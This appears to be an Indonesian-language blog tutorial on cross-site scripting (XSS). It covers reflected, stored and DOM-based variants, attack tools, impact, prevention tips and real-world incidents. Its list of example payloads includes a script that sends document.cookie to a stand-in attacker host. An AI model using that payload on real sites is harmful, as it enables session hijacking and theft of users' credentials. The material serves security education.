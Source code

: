 ```yaml
---
title: "Mengenal Serangan Cross-Site-Scripting (XSS) pada Website"
pubDate: 2022-07-05T08:36:28.798+0700
updatedDate: 2022-07-05T08:36:28.798+0700
categories: [""]
tags: ["xss-attack", "cross-site-scripting"]
heroImage:
    image: ../../assets/d23309750e10/06QYOVknjvvwFBtZd.png
externalPost: https://tridims.medium.com/mengenal-serangan-cross-site-scripting-xss-pada-website-d23309750e10
description: "XSS adalah serangan injeksi skrip pada sisi klien yang memungkinkan penyerang menjalankan kode berbahaya di browser korban untuk mencuri data, mengambil alih sesi, atau menyebarkan malware."
shorts: |
    > **TL;DR:** *XSS adalah serangan injeksi skrip pada sisi klien yang memungkinkan penyerang menjalankan kode berbahaya di browser korban untuk mencuri data, mengambil alih sesi, atau menyebarkan malware.*

    **Apa itu XSS?**  
    XSS (Cross-Site Scripting) adalah serangan yang memasukkan skrip berbahaya ke halaman web atau aplikasi web yang dipercaya. Skrip ini dieksekusi di browser korban ketika input pengguna ditampilkan tanpa validasi atau sanitasi yang tepat.

    **Jenis-jenis XSS**
    - **Reflected XSS (Non-Persistent)** — skrip dikirim sebagai bagian dari request dan segera dipantulkan ke korban; sering dipakai lewat link jahat.
    - **Stored XSS (Persistent)** — skrip disimpan di server (mis. database, log, forum) dan dieksekusi setiap kali konten tersebut diload; *paling berbahaya*.
    - **DOM-based XSS** — skrip dimasukkan dan dirender lewat manipulasi DOM (mis. fragment URL), tanpa perubahan pada server.

    **Contoh payload singkat**
    - `"<script>alert(1)</script>"`
    - `<body onload=alert('test')>`
    - `<img src="x" onerror=alert(document.cookie)>`

    **Alat yang sering dipakai**
    - XSSer, XSStrike, Shuriken, Xsscrapy, KNOXSS, BeEF

    **Dampak**
    XSS dapat menyebabkan pencurian cookie/kredensial, sesi dibajak, distribusi phishing/malware, dan manipulasi konten. Stored XSS biasanya berdampak paling parah.

    **Pencegahan ringkas**
    - *Validasi* dan *sanitasi* semua input pengguna  
    - *Escape/encode* output sesuai konteks (HTML, attribute, JS, URL)  
    - Terapkan header keamanan (Content Security Policy, X-Content-Type-Options, dll.)  
    - Praktik secure-coding dan pemeriksaan keamanan (pengetesan & scanning)

    ---
---
```


Cross\-Site\-Scripting atau yang disingkat XSS adalah serangan berupa code injection yang menanamkan kode/skrip berbahaya di website yang terpercaya\. Serangan ini mengeksploitasi kerentanan XSS untuk mencuri data, mengendalikan sesi pengguna, menjalankan kode jahat, atau digunakan sebagai bagian dari serangan phishing\.

![](../../assets/d23309750e10/06QYOVknjvvwFBtZd.png)

Cross site scripting melakukan serangan injeksi kode pada sisi klien dengan menggunakan sarana halaman website atau web aplikasi\. Peretas akan mengeksekusi skrip berbahaya di browser korban dengan cara memasukkan kode berbahaya ke halaman web atau web aplikasi yang sah\. Serangan ini dapat dilakukan menggunakan JavaScript, VBScript, ActiveX, Flash, dan bahasa sisi klien lainnya\.

Cross site scripting menggunakan aplikasi web untuk menjalankan script berbahaya di dalam browser korban\. Korban secara tidak sadar dapat mendownload dan menjalankan script berbahaya\. Script berbahaya tersebut bisa terdownload karena aplikasi web menampilkan user input tanpa di validasi terlebih dahulu\. Penyerang dapat memasukkan string berupa kode kedalam input web app seperti search, form, dsb\.

## **Jenis\-Jenis Serangan XSS**

### **Reflected XSS \(Non\-Persistent\)**

![](../../assets/d23309750e10/0gUkkfV45hnLz1pwk.png)

Reflected XSS terjadi ketika skrip berbahaya dipantulkan dari web aplikasi ke browser korban\. Dapat terjadi ketika input pengguna yang tidak divalidasi dan tidak tersaring lolos sebagai bagian dari output HTML\. Serangan yang berhasil dapat memungkinkan penyerang untuk mengeksekusi HTML dan JavaScript di browser korban\.

### Stored XSS \(Persistent\)

![](../../assets/d23309750e10/0KzrA1xdgIOheKLCM.png)

Stored XSS merupakan jenis XSS yang paling merusak\. Dalam stored XSS, skrip yang disuntikkan akan disimpan secara permanen di server target, seperti database, forum pesan, visitor log, dan lain\-lain\.

### DOM\-based XSS

![](../../assets/d23309750e10/0nNN6uGtGenAX9dp.png)

Meruparkan jenis XSS dimana script berbahaya dirender secara dinamis ke dalam DOM \(Document Object Model\) \. Dapat dilakukan dengan menuliskan script atau argumen ke dalam url sebuah website\. Contohnya yaitu `http://www\.example\.com/test\.html\#\<script\>alert\(1\)\</script\>\`.

**Contoh XSS Script**

-   `<script>…</script>`
-   `\<body onload=alert\(‘test1’\)\>`
-   `\<b onmouseover=alert\(‘Wufff\!’\)\>click me\!\</b\>`
-   `\<img src=”http://url\.to\.file\.which/not\.exist" onerror=alert\(document\.cookie\);\>`
-   `\<script\>document\.location=’ [http://www\.attacker\.com/cgi\-bin/cookie\.cgi](http://www.attacker.com/cgi-bin/cookie.cgi) ? foo=’\+document\.cookie\</script\>`

**Tools yang dapat digunakan untuk melakukan XSS**

-   Framework XSS Scanner, ada beberapa contoh aplikasi
-   XSSer
-   XSStrike
-   Shuriken
-   Xsscrapy
-   KNOXSS
-   Beef (Browser Exploitation Framework Project, dapat menyediakan script dan server yang dapat digunakan untuk serangan XSS)

## **Dampak Serangan XSS**

Dampak dari serangan XSS dikatakan sesuai dengan jenis serangannya, untuk XSS jenis reflected dan DOM memiliki dampak kerusakan sedang, dan dapat berdampak parah pada jenis serangan stored XSS\. Dengan menggunakan remote code execution pada browser korban, penyerang dapat melakukan berbagai hal mulai dari pencurian data dan kredensial hingga mengirim malware ke korban\.

### **Contoh kasus serangan XSS**

#### 1. **Facebook**

Pada tahun 2011, terdapat tiga buah celah keamanan berbeda yang ditemukan dalam rentah waktu 10 hari\. Isu XSS kedua merupakan yang terburuk menurut saya karena digunakan untuk mendistribusikan serangan phising dan malware\.

#### 2. **British Airways**

Perusahaan penerbangan mengalami security breach pada tahun 2018 yang mempengaruhi 380\.000 transaksi penerbangan\. Penyerang menggunakan script javascript dan XSS attack untuk melacak data consumer\.

#### 3. **eBay**

Ebay pernah menghadapi banyak serangan XSS, dari December 2015 hingga Januari 2016\. Dengan serangan tersebut penyerang dapat mengakses produk pengguna, mencuri detail pembayaran mereka, menjual produk pengguna dengan harga murah, dll\.

## **Daftar Pustaka**

5 Real\-World Cross Site Scripting Examples\. \(2021\) \. Retrieved 28 February 2022, from [https://websitesecuritystore\.com/blog/real\-world\-cross\-site\-scripting\-examples/](https://websitesecuritystore.com/blog/real-world-cross-site-scripting-examples/#:~:text=As%20the%20name%20implies%2C%20stealing,transactions%2C%20personal%20data%2C%20etc)

[https://www\.softwaretestinghelp\.com/cross\-site\-scripting\-xss\-attack\-test/](https://www.softwaretestinghelp.com/cross-site-scripting-xss-attack-test/)

XSS Tutorial\. \(2022\) \. Retrieved 28 February 2022, from [https://hackertarget\.com/xss\-tutorial/](https://hackertarget.com/xss-tutorial/)

Cross Site Scripting \(XSS\) Software Attack \| OWASP Foundation\. \(2022\) \. Retrieved 28 February 2022, from [https://owasp\.org/www\-community/attacks/xss/](https://owasp.org/www-community/attacks/xss/)

DOM\-Based Cross Site Scripting \(DOM\-XSS\) \. \(2018\) \. Retrieved 28 February 2022, from [https://medium\.com/iocscan/dom\-based\-cross\-site\-scripting\-dom\-xss\-3396453364fd](https://medium.com/iocscan/dom-based-cross-site-scripting-dom-xss-3396453364fd)
